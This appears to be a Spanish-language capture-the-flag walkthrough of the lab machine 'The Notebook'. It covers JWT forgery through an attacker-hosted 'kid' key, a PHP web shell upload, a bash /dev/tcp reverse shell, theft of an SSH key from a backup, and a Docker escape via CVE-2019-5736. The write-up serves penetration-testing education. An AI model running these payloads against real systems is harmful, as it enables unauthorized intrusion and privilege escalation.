 

# PortScan
____
```
# Nmap 7.93 scan initiated Thu Nov 30 16:24:46 2023 as: nmap -sCV -p22,80 -oN targeted 10.10.10.230
Nmap scan report for 10.10.10.230
Host is up (0.062s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86df10fd27a3fbd836a7ed909533f5bf (RSA)
|   256 e781d66cdfceb73003915cb513420644 (ECDSA)
|_  256 c60634c7fc00c46206c2360eee5ebf6b (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 30 16:24:55 2023 -- 1 IP address (1 host up) scanned in 9.26 seconds
```



# WebSite
____
![[Pasted image 20231130165809.png]]

Tendríamos una página web para registrarnos e iniciar sesión, así que creo una cuenta, para ver qué hay una vez logueados... tendríamos un apartado para crear notas, pruebo un **XSS** pero no logro resultados, sigo indagando, pero no encontré ninguna vulnerabilidades, así que opté por hacer una enumeración de posibles directorios con **GoBuster** y el diccionario "**SecLists**" pero tampoco encontré nada.

Decidí fijarme en la **cookie de sesión**, viendo qué tenía la estructura de un **JWT**, fuí a la página [JWT.IO](https://jwt.io/) para ver su estructura.
![[Pasted image 20231130170322.png]]

Vemos qué en los **Headers** contiene un campo curioso con nombre "**kid**" y posterior a ello está aparentemente está haciendo un request una **clave privada** desde su **localhost** al puerto **:7070**, por lo qué aparentemente éste campo se debe a qué en las cabeceras carga directamente la firma o **signature** para hacer una comparativa con la signature "real"...

También sinos fijamos en el **payload**, vemos qué está seteado el campo "**admin_cap**" como **falso**, así que a lo mejor si logro cargar una clave privada desde nuestra máquina puede ser que logré cambiar el mismo payload.

1. Procedo a la estructura **Json** del payload & la cabecera.
![[Pasted image 20231130171458.png]]

2. Me creo una la clave privada usando "**openssl**".
```bash
openssl genrsa -out privKey.key 2400
```

3. Copiamos todo el contenido de la clave privada, para pegarlo en la **signature** del **JWT**.
```bash
cat privKey.key | xclip -sel clip
```

4. Pegamos el contenido de la clave en la **signature**.


Una vez hecho ésto, vemos qué se nos genará un nuevo **JWT**
![[Pasted image 20231130171835.png]]

5. Nos montamos un servidor en Python en la ubicación de la clave privada qué creamos con "**openssl**" para qué aplique la comparativa y sean correctas ambas claves privadas.

```bash
python3 -m http.server 7070
```

6. Copiamos el nuevo **JWT** que nos generó **jwt.io** y lo usamos como un nuevo JWT para por último recargar la página.

Vemos en consola qué obtiene la clave privada desde el servidor python.
![[Pasted image 20231130173201.png]]

Viendo así un pestaña qué es un panel administrativo:
![[Pasted image 20231130172504.png]]

Podemos subir archivo, así que se me ocurre subir un **php** malicioso para controlar un **RCE** desde la URL por GET.
![[Pasted image 20231130173001.png]]

```bash
touch cmd.php
```
que tendrá como contenido:
```php
<?php system($_GET['cmd']); ?>
```


He logrado subirlo éxitosamente.
![[Pasted image 20231130173532.png]]

así que opto por verlo, & aparentemente está interpretando el PHP, lo corrobo con un "**whoami**".
![[Pasted image 20231130173602.png]]


Viendo que funcionó, me entablaré una **Reverse Shell**, sino hay reglas "**iptables**" de por medio lo lograré.

1. Nos ponemos en escucha.
```bash
nc -nlvp PORT
```

2. Nos enviamos la Reverse desde la URL.
```bash
bash -c 'bash -i >%26/dev/tcp/10.10.14.x/PORT 0>%261'
```

![[Pasted image 20231130174447.png]]

Obtendríamos la **Reverse Shell,** tan sólo quedaría darle tratamiento a la TYY, para andar comodamente en la shell, sino sabemos como [((LEE ESTE POST))](https://4uli.github.io/tratamiento-tty/)


# Escalada de Privilegios 1.
___

Indagando en la máquina para escalar privilegios, descubrimos un **backup** con nombre "**home**" por lo que se me ocurre puede ser el directorio personal de algun usuario del sistema.
```bash
ls -la /var/backups/home.tar.gz
```

Listando los permisos, vemos qué podemos leerlo, así que se me ocurre descomprimirlo.
```bash
tar -xzf /var/backups/home.tar.gz
```

![[Pasted image 20231130175945.png]]

Pero no podemos descomprimirlo en éste directorio ya que aquí no tenemos permisos de escritura, así que lo moveré al directorio "**/tmp**".
```bash
cd /tmp/
cp /var/backups/home.tar.gz .
```

y ahora si podríamos descomprimirlo.
```bash
tar -xzf /var/backups/home.tar.gz
```

y encontraríamos el directorio personal del usuario "**noah**", junto con su clave privada **SSH** así que podemos aprovecharnos de ésta para conectarnos como **noah**.


1. Nos copiamos todo el contenido de la "**id_rsa**".

2. En nuestra máquina, nos pegamos la clave y damos permisos correctos al archivo.
```bash
nano id_rsa
chmod 600 id_rsa
```

3. nos conectamos con ésta clave por SSH como **noah**.
```bash
ssh -i id_rsa noah@10.10.10.230
```

y ya estaríamos como "noah"
![[Pasted image 20231130180647.png]]


# Escalada de Privilegios 2
___

Listando los permisos **SUDOERS**.
```bash
sudo -l
```

![[Pasted image 20231130181933.png]]

Vemos qué podemos ejecutar como quién sea la instrucción de ejecutar el contenedor "**webaap-dev01**", por lo que se me ocurre ejecutarlo con "**sudo**" de forma qué entre al contenedor como **Root** y luego tratar de hacer un "**docker breakout**".
![[Pasted image 20231130182114.png]]
Pero sólo estamos en un contenedor, no estamos en la máquina real, así que intento hacer el **breakout**, o buscar posibles credenciales para root sin lograr encontrada nada...

así que opto por ver la versión del **Docker** a ver sí encontramos alguna vulnerabilidad.
![[Pasted image 20231130182233.png]]

Vemos qué tiene una versión **18.06.0**, así que hago una búsqueda rápida en busca de vulnerabilidades para un "**breakout**" de esta versión.

Encontrando el siguiente **PoC** [CVE-2019-5736](https://github.com/Frichetten/CVE-2019-5736-PoC), qué leyendo sirve para escapar de un contenedor, así qué modificamos el código para darle permisos **SUID** a la Bash, y como el contenedor lo está ejecutando Root tendremos permisos para dicha acción.


Modificamos el script de la siguiente manera:
![[Pasted image 20231130183057.png]]

Compilamos el script:
```bash
go build -ldflags "-s -w" exploit.go
```

Le reducimos el peso:
```bash
upx exploit.go
```

Nos montamos un servidor python en la ubicación del "**exploit**".
```bash
python3 -m http.server 80
```

Entramos al contenedor nuevamente como **Root** para obtener el exploit, y llamado la bash con su ruta absoluta.
```bash
wget 10.10.x.x/exploit
```

Le damos permisos de ejecución y lo ejecutamos:
```bash
chmod +x exploit
./exploit
```

Una vez se ejecute, nos metemos desde otra ventana en el contenedor ejecutando un "**/bin/sh**"
```bash
sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
```

![[Pasted image 20231130184824.png]]

Logrando darle permisos **SUID** a la bash de la máquina real, logrando así el **Docker breakout**.
![[Pasted image 20231130184920.png]]

